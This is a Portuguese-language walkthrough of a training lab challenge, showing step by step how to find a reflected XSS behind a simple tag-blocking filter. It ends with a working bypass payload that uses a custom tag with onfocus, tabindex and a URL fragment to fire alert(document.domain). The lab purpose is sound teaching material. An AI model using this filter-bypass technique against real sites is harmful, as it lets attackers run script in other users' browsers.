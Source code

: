 Chall nível 2 - https://161.97.160.15/challenge/simple_waf_2.php
1. Ao acessar a página o retorno é ```Please provide search parameter```, mostrando que a aplicação precisa de um parâmetro search a ser provido pelo usuário. (Uffa, não vamos precisar fazer fuzzing de parametros pra ver qual reflete) **// a real é os labs não terem intenção de guessing / ser o mais whitebox possível**
2.  Acessamos https://161.97.160.15/challenge/simple_waf_2.php?search=teste
3. Vemos que a palavra teste é refletida
4. Acessamos ```https://161.97.160.15/challenge/simple_waf_2.php?search=<img>``` e percebemos que nossa requisição é vista como maliciosa pela aplicação, já que o retorno é que nossa requisição foi bloqueada
5. Acessamos ```https://161.97.160.15/challenge/simple_waf_2.php?search=<teste>``` e percebemos que a tag reflete sem problemas.
6. Concluímos, então, que para triggarmos o XSS, precisamos descobrir uma forma de bypassar esse bloqueio, provavelmente feito com base em tags HTML aceitas
7. Você descobre que a aplicação não permite ```<img>``` nem permite ```<IMG>``` (é case insensitive)
8. Você evita utilizar tags conhecidas e parte pra uma abordagem customizada.
9. Tendo em vista que testamos no passo 5 a tag teste e ela passou, existem formas de criarmos um payload com essa tag:
- Utilizando os parametros tabindex (tipo um autofocus) e onfocus
- Usamos tambem o # ao final da URL para chamar o elemento html com base em seu ID **(chamado URI fragment - consultar https://www.rfc-editor.org/rfc/rfc3986)**:

https://161.97.160.15/challenge/simple_waf_2.php?search=%3Cteste%20id=name%20onfocus=alert(document.domain)%20tabindex=1%3E#name

## Parabéns, você conseguiu triggar o XSS na página \o/
  
O código fonte desse desafio pode ser encontrado aqui:
https://github.com/zeroc00I/eternalnoobchallenges/blob/main/2-simple-waf.php
